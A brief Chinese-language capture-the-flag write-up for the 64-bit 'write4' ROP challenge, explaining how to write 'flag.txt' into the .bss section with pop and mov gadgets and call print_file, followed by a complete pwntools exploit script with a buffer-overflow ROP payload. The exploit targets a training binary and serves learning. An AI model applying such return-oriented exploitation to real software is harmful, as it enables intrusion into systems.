 # write4

> 我们要调用print_file('flag.txt')  

1. 与32位差不多，把bss首地址弹到r14，'flag.txt'弹到r15，然后把r15的内容传递到r14的地址，即bss首地址；  

2. 然后把bss+8弹到r14，'\0'弹到r15，然后把r15的内容传递到r14的地址，即bss+8；

3. 最后把bss首地址弹到rdi作为print_file()的参数，调用print_file即可。

Exp:
```python
import pwn

pwn.context(arch='amd64', os='linux', log_level='debug')

p = pwn.process('./write4')
e = pwn.ELF('./write4')
libwrite4 = pwn.ELF('./libwrite4.so')

print_file_addr = pwn.p64(e.plt['print_file'])

bss_addr = e.bss()       # bss addr
pop_rdi_addr = pwn.p64(0x400693)         # pop rdi ; ret
pop_r14_r15_addr = pwn.p64(0x400690)     # pop r14 ; pop r15 ; ret
mov_r15__r14__addr = pwn.p64(0x400628)   # mov %r15, (%r14) ; ret

'''
for k, v in e.sym.items():
    print(k, hex(v))
'''

payload = b'A' * 0x20 + b'B' * 8 + pop_r14_r15_addr + pwn.p64(bss_addr) + b'flag.txt' + mov_r15__r14__addr
#                                               # pop bss_addr to r14  | pop 'flag.txt' to r15  | mov r15 to (%r14) -> bss_addr
payload += pop_r14_r15_addr + pwn.p64(bss_addr + 8) + pwn.p64(0) + mov_r15__r14__addr
#                            # pop bss+8 to r14  | pop '\0' to r15  | mov r15 to (%r14) -> bss+8
payload += pop_rdi_addr + pwn.p64(bss_addr) + print_file_addr + b'RRRR'
                    # pop bss_addr to rdi  | call print_file()                  
p.sendlineafter(b'> ', payload)

p.recv()
```